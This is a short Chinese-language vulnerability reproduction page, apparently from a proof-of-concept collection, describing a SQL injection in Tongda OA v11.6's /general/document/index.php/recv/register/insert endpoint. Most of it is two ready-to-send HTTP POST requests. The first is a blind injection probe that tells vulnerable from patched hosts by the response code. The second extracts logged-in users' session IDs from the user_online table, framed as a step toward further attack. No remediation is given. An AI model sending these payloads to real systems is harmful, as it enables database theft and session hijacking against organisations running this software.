

通达OA v11.6 insert SQL注入漏洞
漏洞描述
通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息
漏洞影响
网络测绘
漏洞复现
登陆页面
发送请求包判断漏洞
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
返回302则是存在漏洞，返回500则不存在

确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=